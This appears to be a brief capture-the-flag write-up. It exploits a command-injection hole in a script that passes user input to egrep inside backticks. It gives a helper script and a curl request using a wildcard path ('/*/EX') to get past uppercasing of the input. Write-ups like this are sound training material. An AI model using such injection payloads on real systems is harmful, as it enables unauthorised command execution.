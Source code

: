 # Solution

`` @output = `egrep "^$xx" /tmp/xd 2>&1`` this line is vulnerale cause egrep interpret pattern

but we cant write `xx = "getflag > /tmp/flag` cause they truncate the value with `a-z/A-Z`

so we execute a exploit write in /tmp/EX and execute it

```bash
$>cat /tmp/EX
#!/bin/bash

getflag > /tmp/flag
$>curl  http://localhost:4646/?x='`/*/EX`'
cat flag
...
```

`/*/EX` is necessary cause `/tmp` will be translate `/TMP`
